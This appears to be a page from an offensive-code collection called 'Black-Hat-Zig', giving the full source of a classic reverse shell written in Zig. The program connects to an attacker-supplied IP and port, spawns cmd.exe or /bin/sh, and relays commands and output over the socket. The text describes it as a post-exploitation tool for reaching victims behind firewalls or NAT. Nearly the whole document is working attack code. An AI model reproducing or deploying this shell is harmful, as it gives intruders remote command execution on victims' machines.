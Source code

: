 # Classic Reverse Shell

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Reverse-Shell/std_reverse_shell)

This example implements a classic reverse shell **using only Zig's standard
library**. It connects to a remote host and spawns a command interpreter whose
input and output are tunneled through the TCP socket. Once the connection is
established, the attacker can issue commands and receive their results as if
they were running directly on the victim machine. Reverse shells are frequently
used in post-exploitation to gain interactive access behind firewalls or NAT
devices.

## Code Walkthrough

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(std.heap.page_allocator);
    defer std.process.argsFree(std.heap.page_allocator, args);
    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();
    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Host seems down. Cannot connect to the host.\n", .{});
        return;
    };
    defer stream.close();

    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;
    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    while (true) {
        // Read command from socket
        const bytes_read = stream.read(&buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Wait for execution
        std.time.sleep(300 * std.time.ns_per_ms);

        // Read output once with reasonable timeout
        if (process.stdout.?.read(&buffer)) |output_len| {
            if (output_len > 0) {
                _ = stream.write(buffer[0..output_len]) catch break;
            }
        } else |_| {
            // If stdout fails, try stderr
            if (process.stderr.?.read(&buffer)) |error_len| {
                if (error_len > 0) {
                    _ = stream.write(buffer[0..error_len]) catch break;
                }
            } else |_| {}
        }
    }
}
```
